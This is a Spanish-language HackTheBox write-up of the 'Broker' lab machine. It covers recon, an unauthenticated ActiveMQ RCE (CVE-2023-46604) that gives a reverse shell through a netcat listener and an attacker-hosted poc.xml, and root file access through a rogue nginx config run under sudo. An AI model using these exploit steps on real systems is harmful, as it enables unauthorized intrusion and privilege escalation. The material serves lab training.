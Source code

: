 ```yaml
---
title: Broker HTB Writeup
published: 2024-02-12
description: 'Encontramos version vulnerable de Apache ActiveMQ, Luego abusamos de nginx que tiene permisos SUDO.'
image: 'image.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


Broker es una máquina Linux de fácil dificultad que aloja una versión de Apache ActiveMQ. La enumeración de la versión de Apache ActiveMQ muestra que es vulnerable a la ejecución remota de código sin autenticación, que se aprovecha para obtener acceso de usuario en el objetivo. La enumeración posterior a la explotación revela que el sistema tiene una configuración errónea de sudo que permite al usuario activemq ejecutar sudo /usr/sbin/nginx, que es similar a la reciente divulgación de Zimbra y se aprovecha para obtener acceso de root.

# Initial Recon

```bash
> ping -c 1 10.10.11.243   
PING 10.10.11.243 (10.10.11.243) 56(84) bytes of data.
64 bytes from 10.10.11.243: icmp_seq=1 ttl=63 time=139 ms

--- 10.10.11.243 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.019/139.019/139.019/0.000 ms
```

comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap -sC -sV -oA broker 10.10.11.243

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:754a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
En nuestro resultado podemos ver 2 puertos.


| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.9p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

Por ahora no intentamos nada a través de ssh ya que no tenemos credenciales válidas, Así que vamos a ver el sitio web.

## Login

![alt text](image-1.png)

En cuanto entré en la web me pidió credenciales, probé adminy por arte de magia me dejó entrar.

![alt text](image-2.png)

Tenemos un sitio web con activeMQ.

>¿Qué es activemq? Apache ActiveMQ es un broker de mensajes de código abierto escrito en Java junto con un completo cliente Java Message Service. Proporciona «Enterprise Features», que en este caso significa fomentar la comunicación desde más de un cliente o servidor.

Si vamos a la sección que dice Manage ActiveMQ broker podemos ver más información.


# Web

## CVE-2023-46604 Exploit

Hemos buscado el exploit CVE de ActiveMQ 5.15.15 y hemos encontrado un exploit interesante:

[CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)

clonamos este exploit:

```bash
> git clone https://github.com/evkl1d/CVE-2023-46604
> cd CVE-2023-46604
```

Escuchamos en el puerto 6666:

```bash
nc -nlvp 6666
```

y editamos el poc.xml que contiene la carpeta exploit que clonamos. La línea que vas a editar necesita tu IP de la interfaz tun0 y el puerto en el que estás escuchando, para recibir la shell allí.

![alt text](image-3.png)

Creamos un servidor en python en el que el exploit tomará el poc.xml para atacar la web.

![alt text](image-4.png)

Ejecutamos el exploit de la siguiente manera:

```bash
> python3 exploit.py -i 10.10.11.243 -u 'http://10.10.14.26/poc.xml' 
```

En el parámetro -u ponemos el Servidor Python que hicimos anteriormente.

> ¿Entendiste lo que hice? Te explico Básicamente, copiamos un exploit de github, que está dedicado para esta Vulnerabilidad de activeMQ.

> en la guía de uso del exploit, nos dice que tenemos que crear un servidor python que le asignaremos cuando ejecutemos el ataque, para que cargue el fichero poc.xml en la página con nuestra IP y puerto en el que ya estamos escuchando para recibir nuestro Revshel

![alt text](image-5.png)

Privilege Escalation

Si ponemos el comando sudo -l nos muestra esto:

```bash
> sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

## Nginx Sudo - Read root flag

>sudo -l se utiliza para comprobar los privilegios que tiene un usuario en un sistema Unix o Linux a través del comando sudo.

Bien, Podemos ejecutar nginx con privilegios sudo sin una contraseña, Vamos a buscar profundamente cómo podemos hacer eso.

Después de la búsqueda, Ahora quiero crear un archivo de configuración, pero primero tenemos que ver nginx.conf de esta ruta /etc/nginx/nginx.conf.

Voy a editar este archivo desde mi máquina y subir en la caja.
```bash
user root;
worker_processes auto;
events {
       worker_connections 790;
}
http{
      server {
             listen   9000;
             location / {
                      root /;
             }
      
      }

}
```

Para establecer el archivo de configuración utilice este comando.

```bash
> sudo nginx -c /tmp/nginx1.conf
> ss -ltnp # displays TCP connections with a source port
```

Ahora podemos acceder a la bandera raíz.

```bash
curl http://localhost:9000/root/root.txt
```

Gracias por leer.